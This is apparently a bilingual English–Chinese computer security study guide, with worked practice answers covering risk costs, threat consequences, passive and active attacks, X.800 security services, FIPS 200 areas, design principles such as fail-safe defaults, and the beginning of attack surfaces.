Annual cost with no countermeasure: \(0.2\times 50{,}000=\$10{,}000\). With A: \(0.05\times 50{,}000+3{,}000=2{,}500+3{,}000=\$5{,}500\). With B: \(0.01\times 50{,}000+9{,}000=500+9{,}000=\$9{,}500\). Choose A: it saves $4,500 per year. B also beats doing nothing (it saves $500) but costs more than A. The risk is reduced, not removed: A leaves an expected loss of $2,500 per year.无对策时的年成本：\(0.2\times 50{,}000=\$10{,}000\)。采用 A 时：\(0.05\times 50{,}000+3{,}000=2{,}500+3{,}000=\$5{,}500\)。采用 B 时：\(0.01\times 50{,}000+9{,}000=500+9{,}000=\$9{,}500\)。应选择 A，每年节省 $4,500。B 也优于不采取措施（每年节省 $500），但成本高于 A。风险得到降低，但并未消除：采用 A 后仍有每年 $2,500 的期望损失。
Q3. (True or false) "A system that has a vulnerability always has a high risk." Justify.Q3. （判断）“存在漏洞的系统一定具有高风险。”请说明理由。
Answer
False. Risk is a function of impact and likelihood, so it needs a threat that can reach and exploit the vulnerability and an asset whose loss matters. If no threat agent can exploit the weakness, or the asset has little value, the risk is low. An easily exploited vulnerability on a valuable asset gives a high risk.错误。风险是影响和可能性的函数，因此既需要一个能够接触并利用该漏洞的威胁，也需要一项损失会产生重大影响的资产。若没有威胁主体能够利用该弱点，或资产价值很低，风险就很低。在有价值的资产上，一个容易被利用的漏洞会带来高风险。
Threats and attacks ★★★威胁与攻击
Goal. Classify any event by its attack, its threat consequence and its type (passive or active). Say how each type of attack is countered, and compute a simple inference attack.目标。 按攻击、威胁后果和类型（被动或主动）对任何事件分类。说明每类攻击如何应对，并计算一个简单的推理攻击。
Step 1: the four threat consequences第 1 步：四种威胁后果
In words: a threat consequence is the kind of damage that a successful attack causes, and each consequence has its own list of attacks.用文字表述：威胁后果是成功的攻击所造成的损害类型，每种后果都有各自的攻击列表。
The four threat consequences（威胁后果）are unauthorized disclosure, deception, disruption and usurpation. Each is caused by the threat actions (attacks) in the table. Example: a thief logs in with a stolen password (deception).四种威胁后果是未授权泄露、欺骗、中断和篡夺。每一种都由表中的威胁行为（攻击）引起。例如，小偷用偷来的口令登录，这属于欺骗。
| Threat consequence威胁后果 | Threat actions (attacks)威胁行为（攻击） | Threatens威胁对象 |
|---|---|---|
| Unauthorized disclosure（未授权泄露）: an entity gains access to data it is not authorized to see未授权泄露：实体获得了其无权查看的数据的访问权 | Exposure: sensitive data released directly, deliberately by an insider or through human, hardware or software error. Interception: direct access to data travelling between authorized endpoints. Inference: indirect access by reasoning from by-products of communications, such as traffic analysis or repeated database queries. Intrusion: access gained by circumventing access control暴露：敏感数据被内部人员蓄意直接释放，或因人为、硬件或软件错误而泄露。截获：直接访问在授权端点之间传输的数据。推理：通过对通信的副产品进行推理而间接获得的访问，例如流量分析或重复的数据库查询。入侵：通过绕过访问控制而获得的访问。 | Confidentiality机密性 |
| Deception（欺骗）: an authorized entity receives false data and believes it欺骗：授权实体接收到虚假数据并相信了它 | Masquerade: posing as an authorized entity (stolen logon ID and password, a Trojan horse). Falsification: altering or replacing valid data or introducing false data. Repudiation: falsely denying having sent or received data伪装：冒充授权实体（盗用的登录 ID 和口令、特洛伊木马）。篡改：更改或替换有效数据，或引入虚假数据。抵赖：谎称未曾发送或接收过数据。 | System or data integrity系统或数据完整性 |
| Disruption（中断）: system services and functions are interrupted or prevented中断：系统服务与功能被中断或被阻止 | Incapacitation: disabling a component, by destroying hardware or by malware (availability). Corruption: undesirably altering functions or data, for example backdoor logic (integrity). Obstruction: hindering operation by disabling links, altering control information or overloading resources (availability)失能：通过破坏硬件或借助恶意软件使某一部件失效（可用性）。破坏：以不期望的方式改变功能或数据，例如后门逻辑（完整性）。阻碍：通过禁用链路、篡改控制信息或使资源过载来妨碍运行（可用性）。 | Availability or system integrity可用性或系统完整性 |
| Usurpation（篡夺）: an unauthorized entity controls system services or functions篡夺：未授权实体控制系统服务或功能 | Misappropriation: unauthorized logical or physical control of a resource, including theft of service (hosts hijacked as DDoS platforms). Misuse: a component made to perform a function detrimental to security, by malicious logic or by an intruder who disables security functions盗用：对资源的未授权逻辑或物理控制，包括服务盗用（被劫持为 DDoS 平台的主机）。滥用：某一部件被恶意逻辑或禁用了安全功能的入侵者迫使其执行有损安全的功能。 | System integrity系统完整性 |
Step 2: passive and active, inside and outside第 2 步：被动与主动，内部与外部
By behaviour, a passive attack（被动攻击）tries to learn or use system information without affecting resources. An active attack（主动攻击）tries to alter resources or affect their operation. By origin, an inside attack（内部攻击）is started by an insider, who is authorized but uses resources in a way the grantor did not approve. An outside attack（外部攻击）comes from an unauthorized user outside the perimeter, from amateur pranksters to organized criminals and hostile governments.按行为划分，被动攻击试图获取或利用系统信息，但不影响资源。主动攻击试图改变资源或影响其运行。按来源划分，内部攻击由内部人员发起。内部人员是获得授权的，但以授权方未批准的方式使用资源。外部攻击来自安全边界之外的未授权用户，既可能是业余的恶作剧者，也可能是有组织的犯罪分子和敌对政府。
Step 3: threats to each kind of asset第 3 步：每类资产面临的威胁
| Asset资产 | Availability可用性 | Confidentiality机密性 | Integrity完整性 |
|---|---|---|---|
| Hardware硬件 | Equipment is stolen or disabled设备被盗或失效 | An unencrypted USB drive is stolen未加密的 USB 闪存盘被盗 | A door sensor is replaced by one that reports "closed" regardless of the door门传感器被替换为一个无论门的实际状态都报告“关闭”的传感器 |
| Software软件 | Programs are deleted程序被删除 | An unauthorized copy is made程序被制作了未授权副本 | A working program is modified to fail or to do something unintended正在运行的程序被修改，导致其失效或执行非预期操作 |
| Data数据 | Files are deleted文件被删除 | Unauthorized read; analysis of statistical data reveals underlying data未授权读取；对统计数据的分析揭示了底层数据 | Files are modified or fabricated文件被修改或伪造 |
| Communication lines and networks通信线路与网络 | Messages are destroyed; lines or networks are unavailable消息被销毁；线路或网络不可用 | Messages are read; the traffic pattern is observed消息被读取；流量模式被观察 | Messages are modified, delayed, reordered or duplicated; false messages are fabricated消息被修改、延迟、重排序或复制；虚假消息被伪造 |
Example of inference: one table gives the total income of respondents A–D and another that of A–E. The difference is the income of E.推理的例子：一张表给出了受访者 A–D 的总收入，另一张表给出了 A–E 的总收入。两者之差就是 E 的收入。
Step 4: attacks on communications第 4 步：对通信的攻击
In words: passive attacks only watch, so they leave no trace and must be prevented; active attacks change or inject data, so they must be detected and repaired.用文字表述：被动攻击只是监听，因此不留痕迹，必须加以预防；主动攻击会篡改或注入数据，因此必须被检测并修复。
Passive attacks eavesdrop on transmissions. There are two types.被动攻击窃听传输内容。它有两种类型。
- Release of message contents: a call, e-mail or file reveals sensitive content.消息内容泄露：通话、电子邮件或文件泄露了敏感内容。
- Traffic analysis（流量分析）: the opponent cannot read encrypted contents, but sees who talks, how often and how long, and guesses what is happening.流量分析：对手读不出加密的内容，但能看到谁在通信、通信的频率和时长，并据此推测正在发生什么。
Nothing is changed, so both parties see normal traffic. Passive attacks are very hard to detect but feasible to prevent, usually by encryption. The emphasis is on prevention.没有任何东西被改动，因此双方看到的都是正常流量。被动攻击很难检测，但可以预防，通常靠加密。重点在于预防。
Active attacks modify the data stream or create a false one. There are four types.主动攻击会修改数据流，或制造一个虚假的数据流。它有四种类型。
- Replay（重放）: a data unit is captured passively and retransmitted later to produce an unauthorized effect. Example: a recorded "pay Mallory $100" message is sent again.重放：一个数据单元被被动截获，之后再次发送，以产生未授权的效果。例如，一条记录下来的“向 Mallory 支付 $100”消息被再次发送。
- Masquerade（伪装）: one entity pretends to be another. Example: a captured login sequence is replayed so that a low-privilege user acts as a high-privilege one.伪装：一个实体冒充另一个实体。例如，截获的登录序列被重放，使低权限用户冒充高权限用户行事。
- Modification of messages: part of a message is altered, or messages are delayed or reordered. Example: "Allow Abigail Flores to read file accounts" is changed to name Isidora Martinez.消息篡改：消息的一部分被改动，或消息被延迟或重新排序。例如，“允许 Abigail Flores 读取 accounts 文件”被改为指定 Isidora Martinez。
- Denial of service（拒绝服务）: normal use of communication facilities is prevented, at one target or network-wide, for example by overloading it with messages.拒绝服务：通信设施的正常使用被阻止，可以针对单个目标，也可以针对整个网络，例如用大量消息使其过载。
Absolute prevention of active attacks would need physical protection of all facilities and paths at all times, which is impractical. The emphasis is on detection and recovery. Detection also deters.要绝对预防主动攻击，就需要随时对所有设施和路径进行物理保护，这不现实。重点在于检测和恢复。检测本身也能起到威慑作用。


In a man-in-the-middle attack（中间人攻击）the attacker intercepts the traffic. It poses as the client to the server and as the server to the client, and may modify data selectively.在中间人攻击中，攻击者拦截通信。它对服务器冒充客户端，对客户端冒充服务器，并可能有选择地修改数据。
Practice练习
Q1. (Classify) For each event give the attack, the threat consequence and whether the attack is passive or active. (a) An attacker reads unencrypted e-mail on a shared wireless LAN. (b) An attacker records a login exchange and sends it again later. (c) An observer counts the number and size of encrypted packets between two hosts. (d) A student alters their grades in the school database. (e) A flood of requests makes a server unreachable.Q1. （分类）对每个事件，给出攻击、威胁后果，并说明该攻击是被动的还是主动的。（a）攻击者在共享的无线 LAN 上读取未加密的电子邮件。（b）攻击者记录一次登录交换，并在之后重新发送。（c）观察者统计两台主机之间加密数据包的数量和大小。（d）一名学生在学校数据库中篡改自己的成绩。（e）大量请求使服务器无法访问。
Answer
| Event事件 | Attack攻击 | Threat consequence威胁后果 | Type类型 |
|---|---|---|---|
| (a) | Interception (release of message contents)截获（消息内容泄露） | Unauthorized disclosure未授权泄露 | Passive被动 |
| (b) | Replay, leading to a masquerade重放，进而导致伪装 | Deception欺骗 | Active主动 |
| (c) | Traffic analysis (inference)流量分析（推理） | Unauthorized disclosure未授权泄露 | Passive被动 |
| (d) | Falsification (modification of data)篡改（数据修改） | Deception (data integrity)欺骗（数据完整性） | Active主动 |
| (e) | Denial of service (obstruction)拒绝服务（阻碍） | Disruption (availability)中断（可用性） | Active主动 |
Q2. (Calculation) A statistical database publishes only totals. The total income of respondents A–D is 212,000, of A–E is 270,500 and of B–E is 195,000. Find the incomes of E and of A, and the sum for B, C and D. What does this show?Q2. （计算）某统计数据库只发布总数。受访者 A–D 的总收入为 212,000，A–E 的总收入为 270,500，B–E 的总收入为 195,000。求 E 与 A 的收入，以及 B、C、D 三人的收入之和。这说明了什么？
Answer
Income of E \(=270{,}500-212{,}000=58{,}500\). Income of A \(=270{,}500-195{,}000=75{,}500\). Income of B+C+D \(=212{,}000-75{,}500=136{,}500\). Overlapping aggregates can be subtracted to reveal individual values, so publishing only aggregates does not guarantee privacy: this is an inference attack, a threat to confidentiality.E 的收入：\(=270{,}500-212{,}000=58{,}500\)。A 的收入：\(=270{,}500-195{,}000=75{,}500\)。B+C+D 的收入之和：\(=212{,}000-75{,}500=136{,}500\)。重叠的汇总值可以相减，从而推出个体数值，因此仅发布汇总数并不能保证隐私：这是一种推理攻击，威胁机密性。
Q3. (Explain) Why can passive attacks be prevented but hardly detected, while active attacks are the opposite? Does encrypting the message contents defeat all passive attacks?Q3. （解释）为什么被动攻击可以预防却难以检测，而主动攻击恰恰相反？对消息内容加密能否挫败所有被动攻击？
Answer
Passive attacks change nothing, so traffic looks normal and neither party notices the eavesdropper; they are very hard to detect, but encryption can prevent them. Active attacks modify or create data. Preventing them absolutely would need physical protection of all communication facilities and paths at all times, which is impossible, so the goal is to detect them and recover; detection also deters. Encryption of contents does not defeat all passive attacks: traffic analysis still reveals who communicates, where, and how often and how much, so traffic-flow confidentiality (for example traffic padding) is also needed.被动攻击不改变任何数据，因此流量看起来正常，双方都不会察觉窃听者；它们很难检测，但加密可以预防。主动攻击会修改或产生数据。若要绝对预防，就需要时刻对所有通信设施和路径进行物理保护，这是不可能的，因此目标是检测并恢复；检测同时也具有威慑作用。对内容加密并不能挫败所有被动攻击：流量分析仍可揭示通信双方是谁、在何处通信，以及通信的频率和数据量，因此还需要业务流机密性（例如业务填充）。
Security services, mechanisms and requirements ★★安全服务、安全机制与要求
Goal. Name the six X.800 services and the eight mechanisms, pair a requirement with a service and a mechanism, and classify the FIPS 200 areas.目标。 说出 X.800 的六项服务和八种机制，把一项需求与一项服务和一种机制配对，并对 FIPS 200 的领域分类。
Step 1: attack, service, mechanism第 1 步：攻击、服务、机制
In words: a service is what is promised, a mechanism is the tool that delivers it, and an attack is what the service is there to stop.用文字表述：服务是承诺提供的东西，机制是实现它的工具，攻击则是服务所要阻止的东西。
The OSI security architecture（OSI 安全体系结构）of ITU-T X.800 defines three elements. A security attack is any action that compromises the security of information. A security service（安全服务）is a processing or communication service that counters attacks by using one or more mechanisms. A security mechanism（安全机制）is a process or device designed to detect, prevent or recover from an attack. Example: the service "data confidentiality" is delivered by encryption.ITU-T X.800 的 OSI 安全体系结构定义了三个要素。安全攻击是任何损害信息安全的行为。安全服务是一种处理或通信服务，它利用一种或多种机制来对抗攻击。安全机制是一种用于检测、预防攻击或从攻击中恢复的过程或设备。例如，“数据机密性”这项服务是通过加密实现的。
Step 2: the six services第 2 步：六项服务
| Service服务 | What it provides提供的功能 |
|---|---|
| Authentication（认证） | Assures that a communication is authentic. Peer entity authentication corroborates the identity of a peer entity in an association, at connection set-up or during transfer, giving confidence that the entity is not masquerading or replaying a previous connection. Data origin authentication corroborates the source of a data unit; it does not protect against duplication or modification and suits connectionless uses such as e-mail保证通信是真实的。对等实体认证在关联建立时或数据传输期间证实对等实体的身份，从而确信该实体不是在伪装或重放先前的连接。数据源认证证实数据单元的来源；它不防止重复或修改，适合电子邮件等无连接的应用。 |
| Access control（访问控制） | Limits and controls access to host systems and applications via communication links; each entity must first be identified or authenticated so that rights can be tailored to it通过通信链路限制并控制对主机系统和应用的访问；每个实体必须先经过识别或认证，才能为其量身定制相应的权限 |
| Data confidentiality（数据机密性） | Protects transmitted data from passive attacks. The broadest form protects all user data on a connection; narrower forms protect a single message or selected fields. Traffic-flow confidentiality hides source, destination, frequency and length保护传输数据免受被动攻击。最宽泛的形式保护连接上的所有用户数据；较窄的形式则只保护单条消息或选定的字段。业务流机密性隐藏源地址、目的地址、频率和长度。 |
| Data integrity（数据完整性） | Connection-oriented: a stream of messages arrives as sent, with no duplication, insertion, modification, reordering, replay or destruction. Connectionless: single messages, protection against modification only. Integrity relates to active attacks, so the service detects; it may only report the violation or recover automatically (preferable)面向连接：消息流按发送顺序到达，不存在重复、插入、修改、重排序、重放或销毁。无连接：针对单条消息，仅防止修改。完整性与主动攻击有关，因此该服务用于检测；它可以只报告违规，也可以自动恢复（后者更为可取）。 |
| Nonrepudiation（不可否认性） | Neither sender nor receiver can deny a transmitted message: the receiver can prove who sent it and the sender can prove who received it发送方和接收方都不能否认所传输的消息：接收方能够证明是谁发送的，发送方能够证明是谁接收的。 |
| Availability（可用性） | A system or resource is accessible and usable on demand by an authorized entity, according to performance specifications. The service addresses denial of service and depends on access control and other services系统或资源能够按照性能规范，在授权实体需要时被其访问和使用。该服务针对拒绝服务问题，并依赖于访问控制及其他服务。 |
Step 3: the eight mechanisms and the pairing第 3 步：八种机制及其配对
- Cryptographic algorithms: reversible (encryption) or irreversible (hash and message authentication codes).密码算法：可逆的（加密），或不可逆的（散列和消息认证码）。
- Data integrity: assures the integrity of a data unit or a stream of data units.数据完整性：保证单个数据单元或一串数据单元的完整性。
- Digital signature: data appended to a data unit that lets the recipient prove its source and integrity and protects against forgery.数字签名：附加在数据单元上的数据，使接收方能够证明其来源和完整性，并防止伪造。
- Authentication exchange: ensures the identity of an entity by exchanging information.认证交换：通过交换信息来确保实体的身份。
- Traffic padding: inserting bits into gaps in a data stream to frustrate traffic analysis.业务填充：在数据流的间隙中插入比特，以挫败流量分析。
- Routing control: selects secure routes and allows changes when a breach is suspected.路由控制：选择安全的路由，并在怀疑发生了破坏时允许更改路由。
- Notarization: a trusted third party assures properties of a data exchange.公证：由可信第三方对数据交换的某些属性进行保证。
- Access control: enforces access rights to resources.访问控制：强制执行对资源的访问权限。
| Service服务 | Mechanisms that support it支持它的机制 |
|---|---|
| Peer entity authentication对等实体认证 | Encryption, digital signature, authentication exchange加密、数字签名、认证交换 |
| Data origin authentication数据源认证 | Encryption, digital signature加密、数字签名 |
| Access control访问控制 | Access control mechanisms访问控制机制 |
| Data confidentiality数据机密性 | Encryption, routing control加密、路由控制 |
| Traffic-flow confidentiality流量机密性 | Encryption, traffic padding, routing control加密、流量填充、路由控制 |
| Data integrity数据完整性 | Encryption, digital signature, data integrity mechanisms加密、数字签名、数据完整性机制 |
| Nonrepudiation不可否认性 | Digital signature, data integrity, notarization数字签名、数据完整性、公证 |
| Availability可用性 | Data integrity, authentication exchange数据完整性、认证交换 |
Step 4: FIPS 200 requirement areas第 4 步：FIPS 200 的要求领域
FIPS 200 lists 17 areas of countermeasures. Most are management issues, not only hardware or software.FIPS 200 列出了 17 个对策领域。其中大多数是管理问题，而不只是硬件或软件问题。
- Technical (4): access control; identification and authentication; system and communications protection; system and information integrity.技术类（4 个）：访问控制；识别与认证；系统与通信保护；系统与信息完整性。
- Management (10): awareness and training; audit and accountability; certification, accreditation and security assessments; contingency planning; maintenance; physical and environmental protection; planning; personnel security; risk assessment; systems and services acquisition.管理类（10 个）：安全意识与培训；审计与问责；证明、授权与安全评估；应急规划；维护；物理与环境保护；规划；人员安全；风险评估；系统与服务获取。
- Both (3): configuration management; incident response; media protection.两类兼有（3 个）：配置管理；事件响应；介质保护。
Practice练习
Q1. (Map) Name the X.800 service and one mechanism for each requirement. (a) A recipient wants assurance that an e-mail comes from the claimed sender. (b) Two hosts confirm each other's identity when a connection opens. (c) A bank must prove that a customer ordered a transfer, and the customer must not be able to deny it. (d) Hide who talks to whom and how much. (e) Detect a deleted or reordered message in a stream.Q1. （对应）针对每项要求，指出对应的 X.800 服务以及一种安全机制。（a）接收方希望确认一封电子邮件确实来自其声称的发件人。（b）两台主机在连接建立时相互确认对方的身份。（c）银行必须能够证明客户下达了转账指令，而且客户不得否认此事。（d）隐藏谁与谁通信以及通信量多少。（e）检测数据流中被删除或被重排序的消息。
Answer
(a) Data origin authentication; digital signature. (b) Peer entity authentication; authentication exchange. (c) Nonrepudiation; digital signature (with notarization). (d) Traffic-flow confidentiality; traffic padding together with encryption. (e) Connection-oriented data integrity; sequence numbers protected by a message authentication code.（a）数据源认证；数字签名。（b）对等实体认证；认证交换。（c）不可否认性；数字签名（配合公证）。（d）业务流机密性；业务填充与加密一同使用。（e）面向连接的数据完整性；由消息认证码保护的序列号。
Q2. (Classify) Classify these FIPS 200 areas as technical, management or both: access control, audit and accountability, incident response, personnel security, system and information integrity, media protection. How many areas does each group contain in total?Q2. （分类）将以下 FIPS 200 领域划分为技术类、管理类或两类兼有：访问控制、审计与问责、事件响应、人员安全、系统与信息完整性、介质保护。每一组总共包含多少个领域？
Answer
Technical: access control, system and information integrity. Management: audit and accountability, personnel security. Both: incident response, media protection. In total there are 4 technical, 10 management and 3 mixed areas: \(4+10+3=17\).技术类：访问控制、系统与信息完整性。管理类：审计与问责、人员安全。两类兼有：事件响应、介质保护。共有技术类 4 个、管理类 10 个、两类兼有 3 个：\(4+10+3=17\)。
Fundamental security design principles ★★★安全设计基本原则
Goal. List the thirteen principles with a one-line meaning, recognise which one a case violates, and repair a flawed design or code.目标。 列出十三条原则并用一句话说明其含义，识别某个案例违反的是哪一条，并修复有缺陷的设计或代码。
In words: a design principle is a rule of thumb for building protection that fails safely and stays simple, small and checkable.用文字表述：设计原则是构建防护时的经验法则，它要求防护在失效时是安全的，并且保持简单、小巧、便于检查。
Thirteen principles are listed. The first eight were proposed by Saltzer and Schroeder in 1975. The table gives the meaning and an example for each.这里列出十三条原则。前八条由 Saltzer 和 Schroeder 于 1975 年提出。表中给出了每条原则的含义和一个例子。
| Principle原则 | Meaning含义 | Why or example理由或示例 |
|---|---|---|
| Economy of mechanism（机制经济性） | Keep security mechanisms as simple and small as possible安全机制应尽可能简单、小巧 | Simple designs are easier to verify and have fewer exploitable flaws; hardest to honour because of demand for new features简单的设计更易于验证，可利用的缺陷也更少；由于对新功能的需求，这一原则最难遵守 |
| Fail-safe defaults（失败-安全默认） | Base access decisions on permission rather than exclusion: the default is no access访问决策应基于许可而非排除：默认不允许访问 | A mistake in a permission scheme fails by refusing access (safe, quickly noticed); a mistake in an exclusion scheme fails by allowing access, possibly unnoticed for long许可方案中的错误会以拒绝访问的方式失效（安全，且很快会被发现）；排除方案中的错误则会以允许访问的方式失效，可能长期未被发现 |
| Complete mediation（完全仲裁） | Check every access against the access control mechanism; do not rely on cached decisions每次访问都应依据访问控制机制进行检查，不要依赖缓存的决策 | File systems check at open, not at every read: full mediation is resource-intensive文件系统在打开时检查，而非每次读取时检查：完全仲裁会消耗大量资源 |
| Open design（开放设计） | The design of a security mechanism should be open, not secret安全机制的设计应当是公开的，而非秘密的 | Keys are secret but algorithms are public, so many experts can review them (NIST standardization)密钥是秘密的，而算法是公开的，因此可以由众多专家审查（NIST 标准化） |
| Separation of privilege（权限分离） | Require multiple privilege attributes for access, or split a program into parts holding only the privileges they need访问需要多个权限属性，或将程序拆分为各自仅持有所需权限的若干部分 | Multifactor authentication (password plus smart card); privileged operations in a separate process多因素认证（口令加智能卡）；特权操作在单独的进程中执行 |
| Least privilege（最小权限） | Every process and user operates with the least set of privileges necessary每个进程和用户都仅以所需的最小权限集运行 | Role-based access control; special privileges only while needed (temporal aspect)基于角色的访问控制；特殊权限仅在需要时授予（时间维度） |
| Least common mechanism（最少公共机制） | Minimize the functions shared by different users尽量减少不同用户之间共享的功能 | Fewer unintended communication paths and less shared hardware and software to verify需要验证的非预期通信路径更少，共享的硬件和软件也更少 |
| Psychological acceptability（心理可接受性） | Mechanisms should not interfere unduly with users' work and should match their mental model of protection安全机制不应过度干扰用户的工作，并应符合用户对保护的心理模型 | Otherwise users turn them off or make errors否则用户会将其关闭，或犯下错误 |
| Isolation（隔离） | Separate public-access systems from critical resources; separate users' processes and files; protect the security mechanisms themselves将公共访问系统与关键资源分离；将用户的进程与文件分开；保护安全机制本身 | Physical or logical separation, per-user memory and file space, protected cryptographic software and keys物理或逻辑上的分离、每个用户独立的内存和文件空间，以及受保护的密码软件和密钥 |
| Encapsulation（封装） | A form of isolation: procedures and data objects in a domain of their own隔离的一种形式：过程和数据对象各自处于独立的域中 | Internals accessible only to the subsystem's procedures, which are called only at designated entry points内部仅对子系统的过程可见，且这些过程只能从指定的入口点调用 |
| Modularity（模块化） | Security functions as separate protected modules, in a modular architecture在模块化架构中，安全功能作为独立的受保护模块实现 | One common cryptographic module for all protocols; parts upgradable without redesign所有协议共用一个通用的密码模块；其各部分可在无需重新设计的情况下升级 |
| Layering（分层） | Multiple overlapping protection approaches for people, technology and operations针对人员、技术和运行的多种相互重叠的保护措施 | Failure of one layer does not leave the system unprotected: defense in depth（纵深防御）一层失效不会使系统失去保护：纵深防御 |
| Least astonishment（最小惊讶） | Interfaces respond in the way least likely to astonish the user接口的响应方式应最不易令用户惊讶 | Users understand how security goals map to mechanisms用户应理解安全目标如何映射到安全机制 |
Open design means that a cryptosystem must stay secure even if everything except the key is public (Kerckhoffs's principle). Secrecy of the design is not a principle.开放设计的意思是：即使除密钥之外的一切都是公开的，密码系统也必须保持安全（柯克霍夫原则）。设计保密并不是一条原则。
How to recognise a violation如何识别违反原则的情形
- Default is "allow", or an error leads to access: fail-safe defaults.默认设置为“允许”，或者出错时仍授予访问权限：违反失败-安全默认。
- A permission is checked once and then trusted: complete mediation.权限只检查一次，之后就被信任：违反完全仲裁。
- A program runs with more rights than its task needs: least privilege.程序拥有的权限超过其任务所需：违反最小权限。
- One credential or one flaw opens everything: separation of privilege.一个凭证或一个缺陷就能打开一切：违反权限分离。
- Secret algorithm, public key: open design is violated by the secret algorithm.算法保密、密钥公开：这种保密算法违反了开放设计。
- Public and critical systems share one machine: isolation.公共系统与关键系统共用一台机器：违反隔离。
- A single defence is the only wall: layering.只有一道防御作为唯一屏障：违反分层。
DWORD dwRet = IsAccessAllowed(...);
if (dwRet == ERROR_SUCCESS) {
// Security check OK: grant access
} else {
// Any other value: deny access (and log dwRet)
}
Practice练习
Q1. (Code) The following code decides access to a resource.Q1. （代码）以下代码决定是否允许访问某一资源。
DWORD dwRet = IsAccessAllowed(...);
if (dwRet == ERROR_ACCESS_DENIED) {
// Security check failed: inform user that access is denied.
} else {
// Security check OK.
}
(a) Explain the security flaw. (b) Rewrite the code.（a）解释其中的安全缺陷。（b）重写该代码。
Answer
(a) Access is granted whenever the return value is anything other than ERROR_ACCESS_DENIED. If IsAccessAllowed fails for another reason (invalid parameter, out of memory, an unexpected code), the else branch still grants access. The check is built on exclusion, which violates fail-safe defaults: an error should fail by refusing access.（a）只要返回值不是 ERROR_ACCESS_DENIED，就会授予访问权限。若 IsAccessAllowed 因其他原因失败（参数无效、内存不足或出现意外代码），else 分支仍会授予访问权限。该检查基于排除，违反了失败-安全默认原则：错误应当以拒绝访问的方式失效。
(b) Grant access only on explicit success:（b）仅在明确成功时才授予访问权限：
DWORD dwRet = IsAccessAllowed(...);
if (dwRet == ERROR_SUCCESS) {
// Security check OK.
} else {
// Any other value: deny access (and log dwRet).
}
Q2. (Identify) Name the principle violated: (a) a download server runs all its code as root; (b) a firewall is configured "allow everything except the listed addresses"; (c) a web application checks the user's role at login and trusts it for the whole session, even after the administrator removes the role; (d) a vendor relies on keeping its cipher secret; (e) users switch off a security prompt that appears every minute.Q2. （识别）指出所违反的原则：（a）下载服务器以 root 身份运行全部代码；（b）防火墙被配置为“允许一切，除列出的地址之外”；（c）Web 应用在登录时检查用户角色，并在整个会话期间信任该角色，即使管理员已将该角色撤销；（d）厂商依赖于将其密码算法保密；（e）用户关闭了每分钟弹出一次的安全提示。
Answer
(a) Least privilege (and separation of privilege: privileged parts should be split off). (b) Fail-safe defaults: the default should be deny. (c) Complete mediation: the permission must be checked at every access, or revoked rights must propagate. (d) Open design: only the key should be secret. (e) Psychological acceptability: a mechanism that burdens users gets bypassed.（a）最小权限（以及权限分离：应当将特权部分分离出来）。（b）失败-安全默认：默认应当是拒绝。（c）完全仲裁：每次访问都必须检查权限，或者撤销的权限必须同步传播。（d）开放设计：只有密钥应当是保密的。（e）心理可接受性：给用户造成负担的机制会被绕过。
Q3. (Compare) Distinguish separation of privilege from least privilege, and isolation from layering.Q3. （比较）区分权限分离与最小权限，以及隔离与分层。
Answer
Least privilege limits what each subject may do: only the permissions needed for the task, and only while needed. Separation of privilege requires more than one condition for access, or splits privileges among parts, so that one stolen credential or one compromised program part is not enough. Isolation separates things from each other (public systems from critical ones, users from users, mechanisms from tampering) so that a breach does not spread. Layering stacks several overlapping protections around the same asset so that the failure of one still leaves the others (defense in depth).最小权限限制每个主体可以做什么：只授予任务所需的权限，并且只在需要时授予。权限分离要求访问需要满足多个条件，或将权限分散到不同部分，从而使单个被盗凭证或单个被攻陷的程序部分都不足以得逞。隔离将事物彼此分开（公共系统与关键系统分开、用户之间分开、安全机制免受篡改），使得一次破坏不会扩散。分层则在同一资产周围叠加多层相互重叠的保护，使其中一层失效时其他层仍然有效（纵深防御）。
Attack surfaces, attack trees and security strategy ★★攻击面、攻击树与安全策略
Goal. Name the three attack surface categories, evaluate an attack tree by hand, and state the parts of a security strategy.目标。 说出三类攻击面，手工评估一棵攻击树，并陈述安全策略的各个组成部分。
Step 1: attack surfaces第 1 步：攻击面
In words: the attack surface = every place where an attacker can reach and exploit the system.用文字表述：攻击面 = 攻击者能够接触并利用系统的每一个位置。
An attack surface（攻击面）consists of the reachable and exploitable vulnerabilities in a system. Examples: open ports on an outward-facing server, code that processes incoming e-mail, a web form, an employee open to social engineering. There are three categories.攻击面由系统中可被触及且可被利用的漏洞组成。例如：面向外部的服务器上开放的端口、处理收到的电子邮件的代码、网页表单，以及容易受社会工程学攻击的员工。攻击面分为三类。
- Network attack surface: vulnerabilities over a network or the Internet, for example protocol flaws and denial of service.网络攻击面：通过网络或互联网可利用的漏洞，例如协议缺陷和拒绝服务。
- Software attack surface: vulnerabilities in application, utility or operating system code, especially Web server software.软件攻击面：应用程序、实用程序或操作系统代码中的漏洞，尤其是 Web 服务器软件中的漏洞。
